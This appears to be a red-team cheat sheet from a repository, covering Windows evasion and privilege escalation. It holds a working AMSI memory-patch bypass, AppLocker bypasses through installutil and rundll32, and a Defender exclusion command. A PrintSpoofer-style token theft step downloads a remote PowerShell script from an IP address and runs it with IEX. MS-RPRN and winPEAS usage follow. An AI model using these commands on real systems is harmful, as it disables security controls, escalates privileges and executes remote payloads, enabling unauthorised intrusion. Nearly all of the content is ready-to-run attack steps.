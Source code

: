 ### Evasion
* AMSI
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};
$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1);
$ptr2 = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf2 = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf2, 0, $ptr2, 8);
```

* AppLocker
only for .NET PE with `RunInstaller(true)` option
```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U <.NET pe>
```

any DLL with exported function
```cmd
C:\Windows\System32\rundll32.exe <DLL>,<func> <param>
```

* Windows Defender
add exclusion path
```powershell
Add-MpPreference -ExclusionPath 'C:\Windows\Temp\'
```

## Privilege Escalation
### PrintSpoofer
* Condition
- user has `SeImpersonatePrivilege`
- printer service is running at host

* Execution
1. run `angler` token-stealer
```cmd
.\redteam-angler.exe \\.\pipe\test\pipe\spoolss "C:\\Windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -ep bypass -nop -c \"$a = (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/generate/results/runner.ps1'); IEX($a)\""
```

2. run `MS-RPRN` to invoke printer service 
```cmd
.\MS-RPRN.exe \\<host> \\<host>/pipe/test
```

### winPEAS
```cmd
.\winPEAS.exe
powershell -ep bypass -nop -file .\winPEAS.ps1
```
